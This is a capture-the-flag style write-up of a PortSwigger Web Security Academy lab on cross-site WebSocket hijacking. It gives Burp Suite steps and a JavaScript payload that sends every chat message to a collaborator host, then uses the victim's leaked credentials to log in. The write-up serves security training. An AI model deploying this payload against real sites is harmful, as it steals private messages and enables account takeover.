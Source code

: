 # Cross-site WebSocket hijacking

## Description

[This online shop](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) has a live chat feature implemented using WebSockets. 

## Reproduction and proof of concept

1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the `READY` command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select **Copy URL**.
6. In browser, go to the exploit server and paste this template into the `Body` section of the form:

```text
<script>
    var ws = new WebSocket('wss://0a18000803f6c281c1c86b78006d00ba.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

7. Replace the WebSocket URL with the URL from the WebSocket handshake (`lab-id.web-security-academy.net/chat`). Make sure to change the protocol from `https://` to `wss://`. Replace `collaborator-url` with a payload generated by Burp Collaborator Client. Mind the `https://` remains in the URL.

![Websockets](/_static/images/sockets5.png)

8. **Store** and click **View exploit**.
9. Poll for interactions using Burp Collaborator client. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. **Poll now** for interactions using Burp Collaborator client again. More HTTP interactions have been received, now containing the victim's chat history. One of them contains the victim's username and password.

![Websockets](/_static/images/sockets6.png)

12. Use the exfiltrated credentials to log in to the victim user's account.

![Websockets](/_static/images/sockets7.png)

## Exploitability

An attacker will need to use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this to gain access to their account. 
